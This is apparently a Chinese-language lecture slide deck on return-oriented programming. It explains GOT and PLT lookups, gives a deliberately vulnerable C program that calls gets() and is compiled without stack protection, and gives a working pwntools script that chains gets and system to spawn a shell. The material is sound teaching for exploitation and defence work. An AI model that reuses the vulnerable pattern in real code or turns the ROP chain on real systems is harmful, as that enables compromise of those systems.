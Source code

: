 # ROP

廖子慶  
2017/3/14 <!-- .element: align="right" -->

---

# Premise

上次有提到 DEP 保護  
既然不能 run 自己的 shellcode  
就用原有的 code 湊成目的吧!

---

# Function call

Dynamic link ELF

1. GOT
1. PLT

--

# GOT

- 俗稱 GOT Table
- ELF 內的一段 data(rw)
- pwntool 可以用 elf.got['foo']來找出 fuction foo 在 table 的位置
- 對應 function 在 libc 裡的位置
- 會在第一次 call function 時填入值

| function | address    | content    |
| -------- | ---------- | ---------- |
| gets     | 0x0804a00c | 0xf6681810 |
| strcpy   | 0x0804a010 | 0xf66a8410 |

--

# PLT

- ELF 內的一段 code(rx)
- pwntool 可以用 elf.plt['foo']來找出這段 code 的位置
- 作用是跳到相對 got 上的位置

| function | address    | content           |
| -------- | ---------- | ----------------- |
| gets     | 0x08048300 | jmp got['gets']   |
| strcpy   | 0x08048310 | jmp got['strcpy'] |

--

# Function call SOP

ex: call printf

1. 跳到 elf.plt['printf']
1. 如果 elf.got['printf']有值
   1. 跳到 elf.got['printf']上填得值
   1. 執行 libc 上的 printf
1. 如果 elf.got['printf']沒有值
   1. 跳到 dl_resolver 上
   1. dl_resolver 會填上 got 的值
   1. 跳到 elf.got['printf']上填得值
   1. 執行 libc 上的 printf

--

# Conclusion

- 將 EIP 控到 plt['foo']或是[got['foo']]就能 call foo
- foo 身為一個 callee
- foo 會以為 stack 上第一個(ESP)是 return address
- foo 會以為 stack 上第二個(ESP+4)之後是 argument

---

# Function ROP

```c
#include <stdio.h>
#include <stdlib.h>
void vul(){
    char buf[4];
    gets(buf);
    return;
}
int main(int argc, char *argv[])
{
    system("cal");
    vul();
    return 0;
}
```

```shell
gcc -m32 -fno-stack-protector -o ./demo ./demo.c
```

[demo](https://drive.google.com/open?id=0B5w3KuqR3zoBUkc5VFJqUHZ0cjA)

--

# Pwn it

```python
from pwn import *
io=process("./demo")
elf=ELF("./demo")

padding=16 # same as before
bss=elf.bss()+0x100 # bss is a data segment which final part don't affect anything
system=elf.plt['system'] # system plt address
gets=elf.plt['gets'] # gets plt address

payload='A'*padding
payload+=flat(gets,system,bss,bss) # flat is a iterator same as "".join(map(p32,[]))

io.sendline(payload) # send the payload
io.sendline("sh") # send the command to bss
io.interactive()
```

--

# Trace it

- EIP=>gets
- ESP=>system->bss->bss
- return address=>system
- argument=>bss

1. gets(bss);
1. return to system!

--

- EIP=>system
- ESP=>bss->bss
- return address=>bss (not important)
- argument=>bss

1. system(bss);
1. return to bss(crash)

---

#Q & A

--

#END
